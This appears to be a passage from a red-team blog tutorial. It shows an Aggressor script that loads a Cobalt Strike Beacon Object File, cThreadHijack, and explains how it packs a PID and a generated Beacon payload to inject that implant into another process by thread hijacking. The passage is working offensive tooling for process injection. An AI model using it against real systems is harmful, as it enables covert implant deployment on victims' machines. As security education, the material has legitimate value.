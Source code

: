 ```perl
    }

    # Read in the BOF
    $handle = openf(script_resource("cThreadHijack.o"));
    $data = readb($handle, -1);
    closef($handle);

    # Verify PID is an integer
    if ((!-isnumber $pid) || (int($pid) <= 0))
    {
        berror($bid, "Please enter a valid PID!\n");
        return;
    }

    # Generate a new payload 
    $payload = payload_local($bid, $listener, "x64", "thread");
    $handle1 = openf(">out.bin");
    writeb($handle1, $data1);
    closef($handle1);
    
    # Pack the arguments
    # 'b' is binary data and 'i' is an integer
    $args = bof_pack($bid, "ib", $pid, $payload);

    # Run the BOF
    # go = Entry point of the BOF
    beacon_inline_execute($bid, $data, "go", $args);
}
```

The goal is to be able to supply our BOF to Cobalt Strike, with the very original name `cThreadHijack`, a PID for injection and the name of the Cobalt Strike listener. The first `local` statement sets up our variables, which include the ID of the Beacon executing the BOF, listener name, the PID, and payload, which will be generated later. The `@_` statement sets an array with the order our arguments will be supplied to the BOF, mean the command to use this BOF would be `cThreadHijack "Name of listener" PID`. After, error checking is done to determine if 3 arguments have been supplied (two for the PID and listener and the Beacon ID, the third argument, will be supplied to the BOF without us needing to input anything). After the object file is read in and the PID is verified, the Aggressor function `payload_local` is used to generate a raw Cobalt Strike payload with the user-supplied listener name and an exit method. After this, the user-supplied argument `$pid` is packed as an integer and the newly created `$payload` variable is packed as a binary value. Then, upon execution in Cobalt Strike, the alias `cThreadHijacked` is executed with the aforementioned arguments, using the function `go` as the main entry point. This script must be loaded before executing the BOF.

From the C code side, this is how it looks to set these arguments and define the functions needed for thread hijacking.

<img src="{{ site.url }}{{ site.baseurl }}/images/Beacon7.png" alt="">

The function `BeaconDataParse` is first used, with a special `datap` structure, to obtain the user-supplied arguments. Then, the value `int pid` is set to the user-supplied PID, while the `char* shellcode` value is set to the Beacon implant, meaning everything is in place. Finally, now that details on adhering to BOF's rules while writing C is out of the way, let's get into the code.

